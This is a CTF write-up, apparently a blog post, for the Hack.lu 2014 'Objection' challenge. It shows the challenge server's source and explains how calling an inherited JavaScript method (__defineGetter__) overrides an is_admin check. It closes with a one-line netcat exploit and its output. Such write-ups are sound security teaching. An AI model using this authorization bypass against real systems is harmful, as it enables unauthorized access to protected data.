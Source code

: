 ```yaml
---
layout: post
title: "Hack.lu 2014 - Objection"
date: 2014-10-23 12:51
comments: true
author: darby
categories: web
---
```


## Challenge

This guard talks a weird dialect. And why does he talk in such a complicated
way?
[Download](https://wildwildweb.fluxfingers.net/static/chals/objection_4966674d17ff296939c0e3dfccfe87ed.co)

nc wildwildweb.fluxfingers.net 1408

## Analysis

Downloading the file gives us:

```coffeescript
const net = require \net
const BufferStream = require \bufferstream

admin_password = (require \fs).readFileSync \admin_password, \utf8


server = net.createServer (con) ->
  console.log 'client connected'
  con.write 'hello!\n'
  client_context =
    is_admin: false
    token: (require \fs).readFileSync \secret_token, \utf8
    login: ([password], cb) ->
      if password == admin_password
        cb "Authentication successful"
        @is_admin = true
      else
        cb "Authentication failed"
    get_token: ([], cb) ->
      if not @is_admin then return cb "You are not authorized to perform this action."
      cb "The current token is #{@token}"
  in_stream = new BufferStream {encoding:\utf8, size:\flexible}
  con.pipe in_stream
  <- in_stream.split \\n
  it .= toString \utf8
  console.log "got line: #{it}"
  [funcname, ...args] = it.split ' '
  if typeof client_context[funcname] != \function
    return con.write "error: unknown function #funcname\n"
  client_context[funcname] args, ->
    con.write "#it\n"

server.listen 1408, ->
  console.log 'server bound'
```

Clearly, we would like to get the token.  Calling `get_token()` requires knowing
the admin password.  The key thing to notice is the follow bit of code where
user input is parsed and used:

```coffeescript
  in_stream = new BufferStream {encoding:\utf8, size:\flexible}
  con.pipe in_stream
  <- in_stream.split \\n
  it .= toString \utf8
  console.log "got line: #{it}"
  [funcname, ...args] = it.split ' '
  if typeof client_context[funcname] != \function
    return con.write "error: unknown function #funcname\n"
  client_context[funcname] args, ->
    con.write "#it\n"
```

The first word of input is checked to be a function of the `client_context`
object.  Since this is turned into javascript, there will be many built-in
methods we could call besides `get_token()` and `login()`.

One method, `__defineGetter__` takes as parameters a property and a function
body.  By overriding `is_admin` with a null body, the check in `get_token()`
will not function as expected, and we will be able to see the token.

## Solution

```
$ echo -e "__defineGetter__ is_admin\nget_token" | nc wildwildweb.fluxfingers.net 1408
hello!
undefined
The current token is flag{real_cowboys_dont_use_object_create_null}
$
```

